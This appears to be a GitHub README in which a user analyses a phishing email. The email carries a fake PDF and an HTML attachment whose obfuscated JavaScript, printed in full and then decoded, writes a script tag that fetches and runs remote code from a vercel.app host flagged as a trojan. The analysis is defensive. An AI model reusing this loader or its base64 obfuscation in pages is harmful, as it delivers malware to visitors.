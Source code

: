 # virus

On 14 Jan 2025 I received the following mail (Thunderbird as a mail program):

![grafik](https://github.com/user-attachments/assets/7bf2c6f3-4468-41a5-b0a2-40a812461fb1)

There are two attachments, a html file and a pdf. The pdf is suspiciously short and actually not a pdf at all.
The html file contains a javascript that downloads the trojan Wacatac.B!ml.
I did a "curl -v https://fictional-dmk.vercel.app > virus.out", and seconds later MS Defender popped up
and told me about a severe security issue, and quarantined the file.

I could restore it and save it here in the repository but I will not - it might make it too easy to set up the
same trap and I want to stay on the bright side.

## Analysis

### pdf
Here is the content of the .pdf attachment:

7847834783478347834783478GHSD347R8YUFDJHKFDFGKSJDGFSK786YDFUSGKFSDFSD

I cannot make sense out of it... maybe it is meant to lure people to click the html after they tried the pdf in vain?

### htm
Here is the content of the .htm attachment to the mail:

<script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "bXltYWlsQGhvdG1haWwuY29t"; document[_fs[1]](unescape(atob(_fs[0])))</script>


### Meaning

The obfuscation is simple and if decoded it reads as follows:

0th param: <script src="https://fictional-dmk.vercel.app/"></script>

1st param: write

Variable h=(my email address in plain text)

The link to vercel.app loads a script which - according to MS Defender - contains the following trojan: Trojan:Script/Wacatac.B!ml

The entire htm attachment boils down to:

document[write](<script>"https://fictional-dmk.vercel.app/"></script>)

Since 'document\[write\](xyz)' is the same as 'document.write(xyz)', this will cause the browser to insert the script tag in parentheses into
the current HTML document, fetch the javascript from fictional-dmk.vercel.app, and execute it. No doubt said javascript code would then
contain a part that evaluates my email adress by reading the variable 'h' and likely report back to the owner of this thing that I am infected
and ready to receive a 'pay ransom or your files stay encrypted' mail or similar.


